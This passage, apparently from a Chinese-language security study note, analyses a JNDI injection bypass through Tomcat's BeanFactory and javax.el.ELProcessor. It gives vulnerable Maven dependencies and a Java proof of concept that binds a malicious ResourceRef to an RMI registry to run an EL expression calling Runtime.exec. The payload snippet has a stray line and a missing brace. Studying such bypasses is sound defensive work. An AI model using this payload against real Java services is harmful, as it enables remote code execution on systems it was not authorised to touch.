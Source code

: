 ```java
                value = (String)ra.getContent();

                Object[] valueArray = new Object[1];

                /* Shortcut for properties with explicitly configured setter */
                Method method = forced.get(propName);
                if (method != null) {
                    valueArray[0] = value;
                    try {
                        method.invoke(bean, valueArray);                //反射调用bean的method方法
                    } 
```



### payload

测试前先把tomcat依赖加上（我开始用的8.5.90，tomcat把这儿就已经修复了）

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.tomcat.embed</groupId>
        <artifactId>tomcat-embed-core</artifactId>
        <version>8.5.71</version> <!-- Latest version as of writing -->
    </dependency>
    <dependency>
        <groupId>org.glassfish</groupId>
        <artifactId>javax.el</artifactId>
        <version>3.0.0</version>
    </dependency>
</dependencies>
```

根据上面分析写出payload

```java
public class JNDIRMIServerBypass {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();
        ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);

        resourceRef.add(new StringRefAddr("forceString", "x=eval"));
        resourceRef.add(new StringRefAddr("x", "Runtime.getRuntime().exec('calc')"));

        initialContext.rebind("rmi://localhost:1099/remoteObj", resourceRef);
        BeanFactory
    }
```

![image-20240730154148956](https://s2.loli.net/2024/07/30/59nJR4WFC8HtIhr.png)

跟下攻击流程
